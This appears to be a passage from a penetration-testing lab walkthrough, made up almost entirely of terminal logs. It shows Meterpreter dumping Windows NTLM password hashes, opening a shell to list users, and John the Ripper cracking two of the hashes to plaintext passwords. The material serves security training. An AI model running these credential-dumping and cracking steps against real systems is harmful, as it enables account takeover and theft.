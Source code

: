 ```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

```
meterpreter > shell
Process 1036 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            bob                      Guest                    
The command completed with one or more errors.
```

```
root@attackdefense:~# cd Desktop/
root@attackdefense:~/Desktop# vim hashes.txt
root@attackdefense:~/Desktop# cat hashes.txt 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

```
root@attackdefense:~/Desktop# john --list=formats
```

```
root@attackdefense:~/Desktop# john --list=formats | grep NT
netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon,
```

```
root@attackdefense:~/Desktop# john --format=NT hashes.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=48
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 8 candidates buffered for the current salt, minimum 24 needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 24 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 24 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
password1        (bob)
password         (Administrator)
2g 0:00:00:00 DONE 2/3 (2023-07-13 07:04) 200.0g/s 193000p/s 193000c/s 386000C/s 123456..knight
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
